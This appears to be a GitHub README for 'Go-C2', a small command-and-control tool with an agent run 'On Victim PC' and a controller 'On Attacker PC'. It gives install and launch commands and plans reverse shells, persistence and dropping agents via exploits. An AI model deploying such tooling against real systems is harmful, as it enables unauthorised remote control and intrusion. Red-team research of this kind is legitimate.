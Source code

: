 

# Go-C2 v0.1

## What is this? 
This is a fairly small tool I wrote that acts as a sort of C2 and an Agent for that C2, additionally the Agent can act as a proxy server when needed.

## Why? 
Because I was annoyed that metasploit's meterpreters don't have a port scanning option so I implemented one myself


## Features:
* C2 client
* Agent

## Installing:
```sh
git clone https://github.com/mrLochness350/Go-C2.git
cd Go-C2
chmod +x install.sh
./install.sh
```
# Usage:

**On Victim PC**
```sh
$ ./Agent_linux_amd64 -c <C2 Address> -p <C2 Port>
```

**On Attacker PC**
```sh
$ ./C2_linux_amd64 -c <Agent Address> -p <Agent Port>
```


# TODO:

### General:
* Encrypt C2/Agent traffic
* Add 2-way authentication to avoid snooping

### Agent
* Fix proxy problems
* Add extra verbosity
* Add background option
* Make the connection a reverse shell
* Add option to drop into shell and not only execute code via the `shell` argument
* Add option to host the C2 from the Agent as a pivot-point
* Add persistence option

### C2
* Add multiple host listeners
* Add option to drop Agent via exploits
* Make the cli more interactive
* Execute commands on an Agent from the cli 
* ~~Add Logging function~~